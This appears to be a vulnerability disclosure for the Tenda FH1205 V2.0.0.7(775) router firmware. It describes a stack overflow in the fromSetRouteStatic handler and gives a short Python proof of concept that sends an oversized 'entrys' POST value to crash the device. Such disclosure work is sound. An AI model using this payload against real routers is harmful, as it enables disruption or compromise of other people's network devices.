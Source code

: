 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2236.html

## Affected version

FH1205 V2.0.0.7(775)

## Vulnerability details

The Tenda FH1205 V2.0.0.7(775) firmware has a stack overflow vulnerability in the `fromSetRouteStatic` function. The `v5` variable receives the `entrys` parameter from a POST request and is used in statement `sprintf(v15, "%s;%s", v12, (const char *)v14);`, which caused the buffer overflow attack. 

![image-20240320013608990](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013608990.png)

![image-20240320013512469](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013512469.png)

![image-20240320013520019](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320013520019.png)

The user-provided `entrys` can trigger this security vulnerability.

## POC

```python
import requests

IP = "192.168.84.101"
url = f"http://{IP}/goform/fromRouteStatic"
payload = b'a'*1000
data = {"entrys": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240320104446748](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320104446748.png)